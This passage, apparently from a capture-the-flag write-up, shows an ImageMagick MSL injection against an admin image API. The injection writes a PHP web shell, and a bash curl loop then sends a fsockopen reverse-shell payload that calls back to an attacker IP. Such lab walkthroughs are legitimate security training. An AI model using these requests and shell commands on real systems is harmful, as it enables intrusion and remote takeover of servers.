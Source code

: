 ```http
    'path': 'vid:msl:/tmp/php*',
    'effect': 'charcoal'
}
```

And here's the second request:

```
POST /api/v2/admin/image/modify HTTP/1.1
Host: 10.129.19.213
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: multipart/form-data; boundary=--ABC
Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTI5LjE5LjIxMy9hcGkvdjIvYXV0aC9sb2dpbiIsImlhdCI6MTY4ODM5Mzc1NCwiZXhwIjoxNjg4NDE1MzU0LCJuYmYiOjE2ODgzOTM3NTQsImp0aSI6IjJFU1NGWHA5Sno4VVh1Y1EiLCJzdWIiOiIyIiwicHJ2IjoiMjNiZDVjODk0OWY2MDBhZGIzOWU3MDFjNDAwODcyZGI3YTU5NzZmNyJ9.TXkEvefZecbOrVTbd20__gfPgBcKwvyFO-bEcq5HCo4

Content-Length: 305
Accept: */*



--ABC
Content-Disposition: form-data; name="swarm"; filename="§swarm.msl§"
Content-Type: application/octet-stream
 
<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="http://10.10.14.64/positive.png" />
 <write filename="info:/var/www/html/intentions/public/cmd.php" />
</image>
--ABC--
```

Lastly, we can have a `bash` loop running to give us a reverse shell using a basic PHP reverse shell from [revshells.com](https://www.revshells.com/).

{% code overflow="wrap" %}
```bash
$ while true; do curl -G --data-urlencode 'a=$sock=fsockopen("10.10.14.64",4444);$proc=proc_open("bash", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);' http://10.129.19.213/cmd.php 2> /dev/null; done
```
{% endcode %}

Then, we just need to start both the payloads within Burpsuite Intruder with NULL requests.&#x20;

<figure><img src="../../.gitbook/assets/image (41) (3).png" alt=""><figcaption></figcaption></figure>
